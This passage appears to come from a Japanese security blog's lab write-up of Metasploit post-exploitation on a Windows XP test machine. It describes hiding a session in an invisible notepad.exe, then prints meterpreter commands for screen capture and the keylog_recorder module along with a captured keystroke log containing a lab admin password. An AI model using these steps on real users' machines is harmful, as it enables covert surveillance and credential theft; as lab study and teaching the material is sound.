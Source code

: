 これにより、XP 側では AcroRd32.exe が終了し、notepad.exe (PID=1512) が開始されます。しかしユーザー側にはメモ帳のウィンドウは見えません。あくまでも、少しの間ハングアップしていた Adobe Reader がクラッシュして終了したように見えるだけです。

 
notepad.exe が動いているがウィンドウが見えない。存在しない PID=520 がセッションを持っているように見える。 <br />
![]({{site.assets_url}}2014-08-12-image13.png)

 
この状態になるとユーザーは普通気づかないでしょう。ログオフしてプロセスが失われるまでの間に、そのユーザーの権限内であれば何でもできます。試しに、スクリーン ショットとキー ロガーを動かしてみました。キー ロガーを動かしている間に XP 側で runas コマンド実行してみます。愚かなユーザーよ・・・。

 
```
meterpreter > screenshot 
Screenshot saved to: /home/alice/OCEGNZxE.jpeg 
meterpreter > run post/windows/capture/keylog_recorder

[*] Executing module against XPSP3 
[*] Starting the keystroke sniffer... 
[*] Keystrokes being saved in to /root/.msf4/loot/20140811113307_default_10.10.10.90_host.windows.key_705718.txt 
[*] Recording keystrokes...

^C

[*] Saving last few keystrokes... 
[*] Interrupt 
[*] Stopping keystroke sniffer... 
meterpreter >
```
 
キャプチャ画像 OCEGNZxE.jpeg。色は変だが文字は十分読み取れる。 <br />
![]({{site.assets_url}}2014-08-12-ocegnzxe.jpg)

 
これがキー ストロークのログ。XP 側が日本語キーボードなので一部の記号が正しく記録されていませんが (というか入力ミス多すぎだろ自分ｗ)、ここからパスワードを盗むのは簡単そうです。

 
```
alice@kali:~$ cat /root/.msf4/loot/20140811113307_default_10.10.10.90_host.windows.key_705718.txt 
Keystroke log started at 2014-08-11 11:33:07 -0700 
runas /user+admi <Back>  <Back>  <Back>  <Back>  <Back> ;contoso]ad <Back>  <Back>  <Back>  administ 
rator cmd <Return> p'ssw0rd <Return> ehoc he <Back>  <Back>  <Back>  <Back>  <Back>  <Back> cho 
hello  <Back> a <Back>   <Back> ! <Return> 
alice@kali:~$
```
 
ユーザーが notepad.exe を終了させると、セッションは失われます。

 
notepad.exe とともに PID=520 のセッションも消えた <br />
![]({{site.assets_url}}2014-08-12-image14.png)

 
msf 側。

 
